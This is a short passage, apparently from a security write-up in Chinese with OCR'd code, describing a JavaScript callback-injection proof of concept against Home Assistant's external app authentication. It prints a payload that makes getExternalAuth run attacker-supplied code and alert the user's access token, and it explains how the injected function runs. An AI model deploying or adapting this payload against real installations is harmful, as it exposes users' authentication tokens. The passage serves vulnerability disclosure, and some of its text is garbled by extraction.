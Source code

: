 ```plain
document.querySelector("home-assistant").dispatchEvent(new CustomEvent("hass-more-info", {
  detail: {
    entityId: ""
  }
}));
externalApp.getExternalAuth('
  {
    "callback": "function func(a,b){ alert(b.access_token); }; func",
    "force": "true"
  }
');//}}))
Since callback is itself
```

由于 callback 参数本身被注入到另一个 JavaScript 代码块中，因此最终的恶意代码将呈现如下形式：

```plain
function func(a, b) {
    alert(b.access_token);
}
func(true, { access_token: "(user access token)", expires_in: (expiration int) } )
```

这段代码会在一个弹出的警告对话框中显示用户的外部认证访问令牌。
